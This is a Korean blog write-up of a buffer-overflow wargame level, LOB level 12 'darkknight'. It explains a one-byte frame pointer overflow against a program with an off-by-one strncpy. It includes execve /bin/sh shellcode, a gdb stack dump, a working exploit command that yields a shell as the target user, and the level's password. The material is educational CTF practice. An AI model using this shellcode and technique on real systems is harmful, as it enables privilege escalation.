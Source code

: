 ```yaml
---
layout: post
title:  "[LOB]Level12. darkknight"
subtitle:   "[LOB]golem → darkknight"
categories: LOB
tags:
- Wargame
- LOB
- Write-up
---
```


## keyword : sfp

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - darkknight
        - FPO
*/
#include <stdio.h>
#include <stdlib.h>

void problem_child(char *src)
{
	char buffer[40];
	strncpy(buffer, src, 41);
	printf("%s\n", buffer);
}

main(int argc, char *argv[])
{
	if(argc<2){
		printf("argv error\n");
		exit(0);
	}

	problem_child(argv[1]);
}
```

shell(24byte) = \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80



problem_child 함수를 보면 41바이트만 복사하게 된다.

힌트에 나왔듯이 SFP주소에 1바이트만 Overflow 시킬수 있는 공격이 FPO(Frame Pointer Overflow) 공격이다.

SPF의 1바이트를 변경시키면 근처 스택 주소로 SFP를 변조 시킬 수 있다.



여기서 스택주소로 변경시킬 때 중요한 점은 SFP에 [원하는 주소-4] 주소를 넣어야 된다는 점이다.

그 이유는 함수가 끝날 때, leave - ret 순서로 종료하게 되게 때문이다.



```sh
(gdb) x/32x $ebp-40
0xbffffaf0:	0xbffffb18	0x4000a970	0x400f855b	0x08049530
0xbffffb00:	0x4000ae60	0xbffffb64	0xbffffb18	0x0804842b
0xbffffb10:	0x0804951c	0x08049530	0xbffffb38	0x400309cb
0xbffffb20:	0x00000001	0xbffffb64	0xbffffb6c	0x40013868
0xbffffb30:	0x00000001	0x08048390	0x00000000	0x080483b1
0xbffffb40:	0x0804846c	0x00000001	0xbffffb64	0x080482e4
0xbffffb50:	0x080484dc	0x4000ae60	0xbffffb5c	0x40013e90
0xbffffb60:	0x00000001	0xbffffc61	0x00000000	0xbffffc7a
```



```sh
[golem@localhost golem]$ ./darkknight `python -c 'print "\x90"*16+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"+"\xf0"'`
����������������1�Ph//shh/bin��PS�ᙰ
                                    ̀�����M�������	@
bash$ my-pass
euid = 512
new attacker
bash$ id
uid=511(golem) gid=511(golem) euid=512(darkknight) egid=512(darkknight) groups=511(golem)
```

sfp의 끝주소를 '\xf0'으로 변경시키고, NOP와 쉘코드를 넣어준다.

> 만약 ebp-40에 바로 쉘코드를 넣었다면 **\xf0 - 4 한 값**을 넣어야 한다. 



##### **darkknight / new attacker**

